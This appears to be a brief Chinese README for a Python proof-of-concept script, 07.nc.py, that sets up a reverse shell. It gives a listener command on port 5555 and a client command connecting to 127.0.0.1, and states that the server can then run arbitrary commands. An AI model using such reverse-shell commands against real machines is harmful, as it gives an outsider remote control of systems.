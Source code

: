 # poc..
poc
反弹shell
服务端执行python3 07.nc.py -p 5555监听5555端口 
客户端执行python3 07.nc.py -r 127.0.0.1 -p 5555
反弹shell成功可在服务端执行任意命令
